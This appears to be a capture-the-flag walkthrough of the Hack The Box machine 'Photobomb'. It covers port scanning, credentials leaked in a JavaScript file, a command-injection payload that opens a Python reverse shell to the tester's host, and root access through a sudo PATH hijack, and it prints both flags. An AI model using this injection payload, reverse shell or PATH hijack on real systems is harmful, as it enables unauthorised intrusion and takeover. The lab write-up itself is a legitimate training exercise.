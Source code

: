 -> Started by enumerating this machine
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 10.10.11.182   

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 14:24 EST
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.78 seconds
```
-> Here I dont find much, so I go online, and I find an interesting js file /photobomb.js
![jsonline](https://user-images.githubusercontent.com/47869173/220764971-4011a7eb-3fc5-4896-a187-642df7113bd1.png)
```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

-> Its a login pH0t0:b0Mb!, so I try to login, and got access, but there is nothing to see, so I try and intercept the download button with burp, and modify the filetype parameter to get a reverse shell

%3bexport+RHOST%3d"10.10.14.135"%3bexport+RPORT%3d7777%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
![reverseshellburp](https://user-images.githubusercontent.com/47869173/220764975-826b4903-daaf-426c-89a6-d05c93f28c5e.png)
```
┌──(root㉿kali)-[/home/astra]
└─# nc -lvnp 7777

listening on [any] 7777 ...
connect to [10.10.14.135] from (UNKNOWN) [10.10.11.182] 42570
$ 
```
-> Anddd we got access, now I find the first flag user.txt
```
$ cd
cd
$ cat user.txt                                                                                                                                                                                                                              
cat user.txt                                                                                                                                                                                                                                
49d347a1b7a3c694f35dea84b1aec200                                                                                                                                                                                                            
$  
```
-> Now we have to escalate privileges, we already have linpeas.sh installed on the system.
```
Linpeas -> Linpeas is a popular tool used to search for possible paths to escalate privileges on Linux, Unix, and MacOS hosts.

Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
-> Found out that I can run "cleanup.sh" without permission, and a file named "find" with "bash-p"
```
wizard@photobomb:~$ cat find
cat find
bash -p
wizard@photobomb:~$ chmod +x find
chmod +x find
wizard@photobomb:~$ ./find
./find
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# 
```
-> We got root access, now just look for the flag
```

root@photobomb:/home/wizard/photobomb# cd
cd
root@photobomb:~# cat root.txt  
cat root.txt
01e8faa319f55858b805b53e0fcd3eb4
root@photobomb:~# 
```

